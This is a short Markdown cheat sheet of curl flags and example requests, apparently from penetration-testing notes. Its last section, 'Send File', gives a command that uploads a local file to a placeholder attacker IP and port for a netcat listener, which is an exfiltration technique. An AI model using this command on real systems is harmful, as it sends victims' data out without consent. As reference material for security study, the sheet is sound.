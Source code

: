 ```yaml
---
title: CURL
summary: A command line tool and library for transferring data with URL syntax.
description: A command line tool and library for transferring data with URL syntax.
---
```


**[https://github.com/curl/curl](https://github.com/curl/curl)**

## Basis


 > 
 > **<font color=red>curl</font> http://my.url**</br>
 > Get HTTP Content.

## Flags


 > 
 > **<font color=red>-s</font>**</br>
 > Silent (do not print curl info).
 > 
 > **<font color=red>-k</font>**</br>
 > Ignore HTTPS Errors.
 > 
 > **<font color=red>-i</font>**</br>
 > Show response Headers.
 > 
 > **<font color=red>-o</font> myFile**</br>
 > Save response in a file.

 > 
 > **<font color=red>-u</font> admin<font color=red>:</font>admin**</br>
 > Provide Credentials.

 > 
 > **<font color=red>-X</font> POST**</br>
 > Specifies method.
 > 
 > **<font color=red>-d</font>**</br>
 > POST data.

 > 
 > **<font color=red>-H '</font>myHeader: myValue<font color=red>'</font>**</br>
 > Set Header.

## GET Request with JWT


 > 
 > **<font color=red>curl '</font>http://\[TARGET_IP\]/api/book/1<font color=red>'  \\</font>**</br>
 > **<font color=red>-H 'Authorization: Bearer</font> \[JWT_TOKEN\]<font color=red>'</font>**</br>
 > Example GET request with JWT.

## Example POST Request with JSON Content


 > 
 > **<font color=red>curl '</font>http://\[TARGET_IP\]/api/auth/login<font color=red>' \\</font>**</br>
 > **<font color=red>-X POST \\</font>**</br>
 > **<font color=red>-H "Content-Type: application/json" \\</font>**</br>
 > **<font color=red>-d '{"</font>username<font color=red>":"</font>User<font color=red>","</font>password<font color=red>":"</font>P@ssw0rd<font color=red>"}'</font>**</br>
 > Example POST request with JSON content.

## Send File


 > 
 > **<font color=red>curl</font> \[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red> -F 'data=@</font>fmyFile<font color=red>'</font>**</br>
 > Send myFile to an netcat listener.
